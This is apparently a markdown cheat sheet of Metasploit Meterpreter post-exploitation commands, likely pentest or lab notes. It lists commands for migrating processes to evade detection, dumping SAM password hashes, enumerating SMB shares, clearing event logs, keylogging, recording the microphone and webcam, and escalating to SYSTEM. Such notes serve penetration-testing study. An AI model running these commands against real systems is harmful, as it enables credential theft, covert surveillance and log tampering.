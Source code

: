    

# 🚀 Meterpreter Essentials

## 🎯 1. Basic info gathering

- **`sysinfo`**  
    Shows system details (OS, architecture, domain, users).
    
    meterpreter > sysinfo
    
    ```
    meterpreter > sysinfo
    ```
    
- **`getuid`**  
    Shows which user the Meterpreter session is running under.
    
    meterpreter > getuid
    
    ```
    meterpreter > getuid
    ```
    
- **`ps`**  
    Lists running processes (to find PIDs for migration).
    
    meterpreter > ps
    
    ```
    meterpreter > ps
    ```
    

---

## 📂 2. Migrating to another process

Used to stabilize the session or evade detection.

meterpreter > migrate <pid>

```
meterpreter > migrate <pid>
```

Example:

meterpreter > migrate 768

```
meterpreter > migrate 768
```

---

## 🔍 3. Dumping hashes

Extracts local password hashes (SAM database).

meterpreter > hashdump

```
meterpreter > hashdump
```

---

## 📡 4. Finding SMB shares

Run from MSF console:

msf6 > use post/windows/gather/enum_shares
msf6 post(windows/gather/enum_shares) > set session <id>
msf6 post(windows/gather/enum_shares) > run

```
msf6 > use post/windows/gather/enum_shares
msf6 post(windows/gather/enum_shares) > set session <id>
msf6 post(windows/gather/enum_shares) > run
```

Example output:

- `SYSVOL`, `NETLOGON`: typical domain shares.
    
- `speedster`: possible custom share.
    

---

## 💻 5. Upgrading shells

If you get a simple cmd shell and want to upgrade to Meterpreter:

meterpreter > sessions -u <session_id>

```
meterpreter > sessions -u <session_id>
```

Or run `shell_to_meterpreter` script.

---

## 🛠 6. Meterpreter core commands

Run `help` to list them.

meterpreter > help

```
meterpreter > help
```

Some essentials:

|Command|Description|
|---|---|
|`background`|Sends session to background|
|`sessions`|Lists/switches sessions|
|`exit`|Ends the session|
|`load`|Loads extensions (e.g. `load kiwi`)|
|`run`|Executes Meterpreter scripts or modules|

---

## 📁 7. File system commands

|Command|Description|
|---|---|
|`ls`|List files in current dir|
|`cd`|Change directory|
|`pwd`|Print current directory|
|`cat <file>`|View file contents|
|`download`|Download file/directory|
|`upload`|Upload file/directory|
|`search`|Search for files|
|`rm <file>`|Delete file|

---

## 🌐 8. Network commands

|Command|Description|
|---|---|
|`ifconfig`|Show network interfaces|
|`netstat`|List network connections|
|`arp`|Show ARP table|
|`route`|View/modify routing table|
|`portfwd`|Set up local->remote port forward|

---

## ⚙️ 9. System commands

|Command|Description|
|---|---|
|`execute`|Run a system command|
|`shell`|Drop to normal cmd shell|
|`getpid`|Get current PID|
|`kill <pid>`|Kill process|
|`clearev`|Clear event logs|
|`shutdown` / `reboot`|Power off or restart|

---

## 🎥 10. Other powerful options

|Command|Description|
|---|---|
|`screenshot`|Capture screen|
|`keyscan_start`|Start keylogging|
|`keyscan_dump`|Dump keystrokes|
|`record_mic`|Record from microphone|
|`webcam_snap`|Take a webcam picture|
|`getsystem`|Try to elevate to SYSTEM privilege|

---

✅ **Quick notes**

- Always run `help` to see available commands (they change based on OS & Meterpreter payload).
    
- If a command fails, check your privileges or try migrating to another process.
    
- Many advanced modules (hashdump, getsystem, kiwi, webcam) may require **SYSTEM privileges**.